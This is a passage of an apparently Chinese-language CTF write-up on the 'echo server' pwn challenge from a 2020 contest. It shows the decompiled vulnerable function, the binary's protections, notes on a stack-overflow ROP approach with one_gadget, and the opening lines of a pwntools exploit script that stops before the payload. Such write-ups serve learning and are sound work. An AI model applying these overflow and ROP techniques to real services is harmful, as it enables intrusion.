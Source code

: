 ```yaml
---
title: 安恒四月赛
date: 2020-04-26 22:48:36
tags: CTF
---
```

这次比赛很不错，一改以往的风格，质量比较高  
自己做了一个pwn，问别的师傅搞出来一个pwn。据说最后那个pwn是本来打算上2.29的环境的，然后上错了上了个2.27，造成了一题两用的景象  
# PWN  
## echo server   
首先就有一个坑，压缩包要解压两次，一开始看到winhex里面用test开头感觉很奇怪，不知道什么情况，把文件头删到elf为止，然后IDA打开很奇怪，后来才知道要再解压一次。。  
### 分析  
漏洞函数在这里  
```C++  
int sub_4006D2()
{
  unsigned int v1; // [rsp+Ch] [rbp-84h]
  char s; // [rsp+10h] [rbp-80h]

  v1 = 0;
  printf("how long is your name: ");
  __isoc99_scanf("%d", &v1);
  printf("and what's you name? ");
  memset(&s, 0, 0x80uLL);
  sub_4006A7(&s, v1);  // sub_4006A7就是read，v1作为len
  return printf("hello %s", &s);
}
```  
```shell  
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```  
感觉像个ROP  
可以输入byte，然后read，溢出  
那岂不是很简单，随便ROP就行了  
虽然是18的环境，但是不重要，one_gadget一把梭就行了  
需要注意的是，system在这⑧的行，为什么呢，很可能就是ubuntu18需要栈对齐啥的，system函数里面有需要你对齐到rsp+0x10，好像加个ret就可以？  
不知道，反正不重要了，one_gadget能打就OK  
### exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './test' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=elf.libc
pop_rdi_ret = 0x0000000000400823
```